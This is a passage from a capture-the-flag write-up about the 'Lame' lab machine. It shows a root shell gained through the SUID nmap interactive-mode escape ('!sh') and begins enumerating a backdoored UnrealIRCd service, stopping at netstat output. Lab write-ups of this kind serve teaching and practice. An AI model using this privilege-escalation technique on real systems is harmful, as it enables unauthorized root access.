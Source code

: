 To research a SUID or `sudo` binary, my first stop is always
[GTFObins](https://gtfobins.github.io/). `nmap` is in there:

![image-20200407150606186](https://0xdfimages.gitlab.io/img/image-20200407150606186.png)

Clicking on the nmap link, it two ways to get a shell out of `nmap`:

![image-20200407150723364](https://0xdfimages.gitlab.io/img/image-20200407150723364.png)

#### Shell

The second work works great here (note the `euid` of root):

    
    
    daemon@lame:/$ nmap --interactive
    
    Starting Nmap V. 4.53 ( http://insecure.org )
    Welcome to Interactive Mode -- press h <enter> for help
    nmap> !sh
    sh-3.2# id
    uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)
    

### Backdoored UnrealIRCd

Edited to add: [_r518](https://twitter.com/_r518) pointed out another local
privesc, UnrealIRCd. Given that this seems to be the Metasploitable VM,
there’s probably even more, but I figured I’d add at least this one.

#### Enumeration

If I run a `netstat` on the box to see listening services, there are a bunch,
but 6697 jumps out as IRC over SSL:

    
    
    daemon@lame:/tmp$ netstat -tnlp                                                                                                                     
    (Not all processes could be identified, non-owned process info                                                                                      
     will not be shown, you would have to be root to see it all.)                                                                                       
    Active Internet connections (only servers)                                                                                                          Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name                                                    tcp        0      0 0.0.0.0:512             0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:513             0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 0.0.0.0:2049            0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:514             0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:44007           0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:6697            0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:6667            0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -                                                                   tcp        0      0 0.0.0.0:5900            0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 0.0.0.0:55758           0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 0.0.0.0:8787            0.0.0.0:*               LISTEN      -                                
    tcp        0      0 0.0.0.0:1524            0.0.0.0:*               LISTEN      -                                
    tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 10.10.10.3:53           0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 127.0.0.1:53            0.0.0.0:*               LISTEN      -                                                                   
    tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      -                                                                   
